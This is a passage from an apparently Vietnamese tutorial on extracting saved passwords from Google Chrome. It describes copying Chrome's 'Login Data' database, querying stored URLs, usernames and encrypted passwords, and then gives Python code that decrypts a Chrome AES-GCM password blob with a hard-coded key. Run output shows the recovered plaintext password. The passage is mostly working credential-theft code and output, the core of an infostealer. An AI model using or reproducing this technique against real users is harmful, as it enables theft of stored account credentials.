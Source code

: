 
1. Đầu tiên `chrome_path` sửa dụng các hàm trên để để tìm đường dẫn chính xác đến file lưu trữ thông tin đăng nhập của Chrome trên máy tính của người dùng.
2. Sau đó tạo 1 bản sao để sao chép file "**Login Data**" gốc vào một file mới tên là "**Loginvault.db**" để tránh thay đổi dữ liệu gốc trong quá trình làm việc.
3. Tiếp theo kết nối đến bản sao truy vấn dữ liệu, thiết lập sqlite3 để kết nối đến bản sao **Loginvault.db**, sau đó thực hiện truy vấn SQL để lấy ra các cột **origin_url, username_value và password_value** từ bảng logins.
4. Dựa trên vòng lặp duyệt qua từng hàng dữ liệu được truy vấn, in ra thông tin bao gồm URL tên người dùng và mật khẩu đã mã hóa.

## Decrypt Password

```jsx
import os 
import re 
import sys
import json 
import base64
import sqlite3
import win32crypt 
from Cryptodome.Cipher import AES
import shutil 
import csv 

# Giá trị ciphertext và secret_key của bạn
ciphertext = b'v10\x9be\xe4\x14{\x81\x1d\xf6\xf8\x98\xb1I4\x8c\xf8\xc1\xad\xd1\x9a\xcd\x9e\x90\xa8,1\xf3a\x08]\x195\xf2B\xccX\x8e_\x82\xf7q'
secret_key = b'\xc3O\xbc\xb2Kf0\x15\xaf\xd8\xff\x94\xed;y\xb9la\xee\xfa]=\x00M\x0c\x1e\xdf\xd4\xba\x1b\xc3\xc3'

# Hàm để giải mã dữ liệu đã mã hóa 
def decrypt_payload(cipher, payload):
    return cipher.decrypt(payload)

# Hàm để tạo đối tượng cipher sử dụng thuật toán AES trong chế độ GCM
def generate_cipher(aes_key, iv):
    return AES.new(aes_key, AES.MODE_GCM, iv)

# Trích xuất vector khởi tạo (IV) từ ciphertext
initialisation_vector = ciphertext[3:15]
print("initialisation vector: ", initialisation_vector)

# Trích xuất phần dữ liệu mật khẩu đã mã hóa từ ciphertext
encrypted_password = ciphertext[15:-16]
print("encrypted password: ", encrypted_password)

# Tạo đối tượng cipher
cipher = generate_cipher(secret_key, initialisation_vector)

# Giải mã mật khẩu
print("Process of decrypted password is success!")
decrypted_pass = decrypt_payload(cipher, encrypted_password)
decrypted_pass = decrypted_pass.decode()

# In mật khẩu đã giải mã
print("Password is: ", decrypted_pass)

C:\python .\password.py
initialisation vector:  b'\x9be\xe4\x14{\x81\x1d\xf6\xf8\x98\xb1I'
encrypted password:  b'4\x8c\xf8\xc1\xad\xd1\x9a\xcd\x9e\x90\xa8,'
Process of decrypted password is success!
Password is:  poilioma1234
```
